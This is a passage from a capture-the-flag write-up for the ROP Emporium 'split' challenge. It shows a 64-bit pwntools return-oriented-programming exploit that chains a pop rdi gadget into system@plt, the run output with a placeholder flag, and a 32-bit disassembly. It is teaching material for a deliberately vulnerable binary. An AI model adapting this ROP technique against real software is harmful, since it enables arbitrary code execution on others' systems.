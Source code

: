 ```

====================================================================================
rip --> ret
	## Move the address of system@plt into rip, this executong it
====================================================================================
```

### Exploit

```python title="exploit64.py"
from pwn import *

padding = b"a"*40
poprdi_addr = p64(0x00000000004007c3)
bincat_addr = p64(0x601060)
system_addr = p64(0x000000000040074b)

payload = padding + poprdi_addr + bincat_addr + system_addr

p = process('./split')
p.sendline(payload) 
p.interactive()
```

Let's run the exploit.

```
$ python exploit64.py 
[+] Starting local process './split': pid 987
[*] Switching to interactive mode
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
```

&nbsp;

## 32 bit

### `usefulFunction()`

```
pwndbg> disassemble usefulFunction
Dump of assembler code for function usefulFunction:
   0x0804860c <+0>:     push   ebp
   0x0804860d <+1>:     mov    ebp,esp
   0x0804860f <+3>:     sub    esp,0x8
   0x08048612 <+6>:     sub    esp,0xc
   0x08048615 <+9>:     push   0x804870e
   0x0804861a <+14>:    call   0x80483e0 <system@plt>
   0x0804861f <+19>:    add    esp,0x10
   0x08048622 <+22>:    nop
   0x08048623 <+23>:    leave
   0x08048624 <+24>:    ret
End of assembler dump.
```
